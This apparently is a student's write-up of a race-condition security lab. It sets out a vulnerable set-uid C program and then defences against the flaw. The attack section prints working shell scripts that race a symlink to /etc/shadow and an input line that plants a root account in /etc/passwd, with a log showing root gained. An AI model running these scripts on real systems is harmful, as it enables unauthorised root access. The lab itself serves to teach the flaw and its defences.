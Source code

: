 ## 1 Lab Description
The learning objective of this lab is for students to gain the first-hand experience on the race-condition 
vulnerability by putting what they have learned about the vulnerability from class into actions. A race 
condition occurs when multiple processes access and manipulate the same data concurrently, and the 
outcome of the execution depends on the particular order in which the access takes place. If a privileged 
program has a race-condition vulnerability, attackers can run a parallel process to “race” against the 
privileged program, with an intention to change the behaviors of the program.
In this lab, students will be given a program with a race-condition vulnerability; their task is to develop a 
scheme to exploit the vulnerability and gain the root privilege. In addition to the attacks, students will be 
guided to walk through several protection schemes that can be used to counter the race-condition 
attacks. Students need to evaluate whether the schemes work or not and explain why.
## 2 Lab Tasks
Before working on the lab tasks, ensure to have read the Guidelines in Section 3.
### 2.1 Initial setup
Ubuntu 10.10 and later come in with a built-in protection against race condition attacks. This scheme 
works by restricting who can follow a symlink. According to the documen-tation, “symlinks in world-
writable sticky directories (e.g. /tmp) cannot be followed if the follower and directory owner do not match 
the symlink owner.” In this lab, we need to disable this protection. You can achieve that using the 
following command:

```sh
$ sudo sysctl -w fs.protected_symlinks=0
```

### 2.2 A Vulnerable Program
The following program is a seemingly harmless program. It contains a race-condition vulnerability.

```sh
/* vulp.c */
#include <stdio.h>
#include <unistd.h>
int main()
{ 
  char *fn = "/tmp/XYZ";
  char buffer[60];FILE *fp;
  /* get user input */
  scanf("%50s", buffer );
  if (!access(fn, W_OK))
  {
    fp = fopen(fn, "a+");
    fwrite("\n", sizeof(char), 1, fp);
    fwrite(buffer, sizeof(char), strlen(buffer), fp); fclose(fp);
  }
  else printf("No permission \n");
}
```
In this lab, you need to compile the above program using the root account and make it as a set-uid 
program. This program appends a string of user input to the end of a temporary file /tmp/XYZ. Since the 
code runs with the root privilege, it carefully checks whether the real user actually has the access 
permission to the file /tmp/XYZ; that is the purpose of the access() call. Once the program has made sure 
that the real user indeed has the right, the program opens the file and writes the user input into the file. In 
this lab, you can use the seed account to create a file named XYZ.

It appears that the program does not have any problem at a first glance. However, there is a race 
condition vulnerability in this program: due to the window (the simulated delay) between the check 
(access) and the use (fopen), there is a possibility that the file used by access is different from the file 
used by fopen, even though they have the same file name /tmp/XYZ. If a malicious attacker can 
somehow make /tmp/XYZ a symbolic link pointing to /etc/shadow, the attacker can cause the user input 
to be appended to /etc/shadow (note that the program runs with the root privilege, and can therefore 
overwrite any file).

### 2.3 Task 1: Exploit the Race Condition Vulnerabilities
You need to exploit the race condition vulnerability in the above Set-UID program. More specifically, you 
need to add a line “cs532-lab” to the end of /etc/shadow by using the race. Please also explain why your 
attack can success.
Actually, if you are able to modify the shadow file, you can use the same attack to modify the /etc/passwd 
file. As a result, you are be able to create any kind of accounts for the OS.

Our attack script:

```sh
#!/bin/sh
# attack.sh
race()
{
	old=`ls -l /etc/shadow`
	old=`ls -l /etc/shadow`
	while [ "$old"="$new" ]
	do
		rm -f /tmp/XYZ
		>/tmp/XYZ
		ln -sf /etc/shadow /tmp/XYZ
		new=`ls -l /etc/shadow`
	done
}

race
echo "Stop... The shadow has been changed!"
RACE_PID=$!
kill $RACE_PID
```

Loop execution script:

```sh
#!/bin/sh
# loop.sh
race()
{
	while true
	do
		./vulp < attack_input
	done
}

race
RACE_PID=$!
kill $RACE_PID
```

Content in attack_input:

```sh
smith:ttXydORJt50wQ:0:0::/home:/bin/sh
```

Now, let's attack it.

```sh
seed@ubuntu:~$ ls -al vulp* attack* loop.sh 
-rwxrwxrwx 1 seed seed   39 Aug 11 23:39 attack_input
-rwxrwxrwx 1 seed seed  268 Aug 11 23:02 attack.sh
-rwxrwxrwx 1 seed seed  102 Aug 11 23:44 loop.sh
-rws------ 1 root root 7403 Aug 11 23:22 vulp
-rwxrw-rw- 1 seed seed  301 Aug 11 23:42 vulp.c
seed@ubuntu:~$ ./loop.sh ; ./attack.sh
Stop... The passwd has been changed!
seed@ubuntu:~$ cat /etc/passwd | grep smith
smith:ttXydORJt50wQ:0:0::/home:/bin/sh
seed@ubuntu:~$ su smith 
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
```



### 2.4 Task 2: Protection Mechanism A: Repeating
Getting rid of race conditions is not easy, because the check-and-use pattern is often necessary in 
programs. Instead of removing race conditions, we can actually add more race conditions, such that to 
compromise the security of the program, attackers need to win all these race conditions. If these race 
conditions are designed properly, we can exponentially reduce the winning probability for attackers. The 
basic idea is to repeat access() and fopen() for several times.
Please use this strategy to modify the vulnerable program and repeat your attack. Report how difficult it is 
to succeed, if you can still succeed.
### 2.5 Task 3: Protection Mechanism B: Principle of Least Privilege
The fundamental problem of the vulnerable program in this lab is the violation of the Principle of Least 
Privilege. The programmer does understand that the user who runs the program might be too powerful, 
so he/she introduced access() to limit the user’s power. However, this is not the proper approach. A better
approach is to apply the Principle of Least Privilege; namely, if users do not need certain privilege, the 
privilege needs to be disabled.
We can use seteuid() system call to temporarily disable the root privilege, and later enable it if necessary. 
Please use this approach to fix the vulnerability in the program, and then repeat your attack. Will you be 
able to succeed? Please report your observations and explanation.
### 2.6 Task 4: Protection Mechanism C: Ubuntu’s Built-in Scheme
As we mentioned in the initial setup, comes with a built-in protection scheme against race condition 
attacks.
In this task, you need to turn the protection back on using the following command:
```sh
$ sudo sysctl -w fs.protected_symlinks=1
```
In your report, please describe your observations. Please also explain why does this protection scheme 
work?
